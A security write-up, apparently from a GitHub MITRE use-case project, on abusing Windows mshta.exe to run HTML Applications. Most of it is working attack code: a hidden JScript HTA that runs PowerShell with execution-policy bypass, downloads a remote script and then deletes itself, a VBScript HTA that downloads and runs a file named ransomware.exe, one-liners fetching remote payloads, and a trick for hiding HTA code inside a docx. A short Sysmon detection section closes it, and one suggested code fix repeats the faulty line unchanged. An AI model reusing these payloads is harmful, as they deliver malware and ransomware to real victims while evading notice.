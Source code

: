 ### The magic behind ```mshta.exe```
Mshta.exe is a utility that executes **Microsoft HTML Applications (HTA) **
An **HTML Application (HTA)** is a Microsoft Windows program whose source code consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as VBScript or JScript.

#### Parameters
Parameters to the ```mshta.exe``` include:
* ```-xxx``` 


#### Special cases


#### Malicious scenarios
Because it runs on windows and support VBScript and Jscript, it's very obvious that it could be used in a malicious way

**The following is the format of HTA file**

```html
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">


<script>
//We will use Wscript.shell in order to launch PowerShell
// new ActiveXObject is JScript
a = new ActiveXObject('Wscript.Shell');
//Our command to execute
cmd = "powershell  -ep Bypass -nop -noexit -c (IEX (New-Object Net.WebClient).DownloadString('http://[IP]/projects/exec.ps1'))";
//Run the command, 0 is needed so that no PowerShell window will appear
a.Run(cmd,0);

//We use this in order to get erase the HTA file after it has executed
b = new ActiveXObject("Scripting.FileSystemObject");
//Get filename and edit it so that windows can read it properly
filename = window.location.href;
filename = decodeURI(filename);
filename = filename.slice(8);
//Get a handle on the file
c = b.GetFile(filename);
//Delete it
c.Delete();
//Close the MSHTA window
window.close();
</script>
</head>
<body>
</body>
</html>
```

the above HTA file uses ActiveX Microsoft extension to JavaScript to run cmd command which will run PowerShell and download another PowerShell script

the following tag is what defines that the following is HTA application so it could be parsed with mshta.exe as HTA file and execute the buried Jscript code in it



```html
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">
```

mshta.exe always looking for this tag to identify the file as HTA



to run the HTA file, *run mshta.exe from cmd not PowerShell*

```powershell
mshta.exe http://webserver/payload.hta
```

```powershell
mshta.exe [Full Path to the File]
```




mshta.exe could also run VBScript code as one-liner

```vbscript
mshta.exe vbscript:Close(MsgBox("Karem"))
```

```vbscript
mshta.exe vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```

****

you also can Just VBScript
```vbscript
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">


<script type="text/vbscript" LANGUAGE="VBScript" >
Set wshShell = CreateObject( "WScript.Shell" )
strUserName = wshShell.ExpandEnvironmentStrings( "%USERNAME%" )
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://[IP]/ransinvoke.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe", 2 '//overwrite
end with
Set objShell = Wscript.CreateObject("Wscript.Shell")
objShell.run("C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe")

</script>
</head>
<body>
</body>
</html>
```

some times when you run the above code you get an error saying that Wscript is not defined, this is happen because of this line

```vbscript
 Set objShell = Wscript.CreateObject("Wscript.Shell")
```


 so just remove the Wscript and make it

```vbscript
Set objShell = Wscript.CreateObject("Wscript.Shell")
```
and it will run with no issue
this problem always happens to me when I run VBScript from other file, bu it works fine it the file is just VBScript and I run it through Wscrip.exe

****



**HTA file execution Tricks**

We can append the HTA file at the end of any other (not image) file

```powershell
copy /b doc.docx+file.hta newdoc.docx
mshta.exe [full path to newdoc.docx]
```

mshta.exe will not care about the extension of the supplied file as long as it's not image extension (ex: jpg, jpeg,png,..), it will just search for the tag that defines the HTA file



Notes

- if you append the data to docx file then run it using mshta.exe, it will work but once the victim opens it using word, word will identify that there is a problem but will open the file eventually after trimming the HTA code, and when user tires to close the file, word will tell hom to save the new doc which has no HTA, if the user saved the new file and removed the one that word told him that it's corrupted, then our HTA code is gone
- if you append HTA to image file and try to open it using mshta, it will open the image in a windows and will not run the JScript inside the HTA

 

### Detection

- sysmon

  - process create

    - mshta.exe process create with command line identify the file that will run the HTA
    - cmd process create with mshta.exe as parent process
    - PowerShell process that has cmd.exe as parent process 

    
    
    ![Mermaid](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/MSHTA/Misc/Mermaid.jpg)
    
    

### Reference 
* [Good Resource about MSHTA] http://blog.sevagas.com/?Hacking-around-HTA-files
* https://github.com/karemfaisal/SMUC/blob/master/MSHTA/Mshta.md
